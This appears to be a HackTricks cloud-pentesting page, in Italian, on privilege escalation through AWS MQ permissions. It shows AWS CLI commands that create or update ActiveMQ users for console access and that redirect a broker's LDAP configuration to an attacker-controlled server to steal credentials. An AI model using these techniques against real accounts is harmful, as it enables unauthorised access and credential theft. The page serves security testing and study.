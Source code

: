 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Per ulteriori informazioni su MQ controlla:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Con questi permessi puoi **creare un nuovo utente in un broker ActimeMQ** (questo non funziona in RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impatto Potenziale:** Accesso a informazioni sensibili navigando attraverso ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Con questi permessi puoi **creare un nuovo utente in un broker ActiveMQ** (questo non funziona in RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impatto Potenziale:** Accesso a informazioni sensibili navigando attraverso ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Se un broker utilizza **LDAP** per l'autorizzazione con **ActiveMQ**, è possibile **cambiare** la **configurazione** del server LDAP utilizzato con **uno controllato dall'attaccante**. In questo modo, l'attaccante sarà in grado di **rubare tutte le credenziali inviate tramite LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Se in qualche modo riuscissi a trovare le credenziali originali utilizzate da ActiveMQ, potresti eseguire un MitM, rubare le credenziali, utilizzarle nel server originale e inviare la risposta (forse semplicemente riutilizzando le credenziali rubate potresti farlo).

**Impatto Potenziale:** Rubare le credenziali di ActiveMQ

{{#include ../../../banners/hacktricks-training.md}}
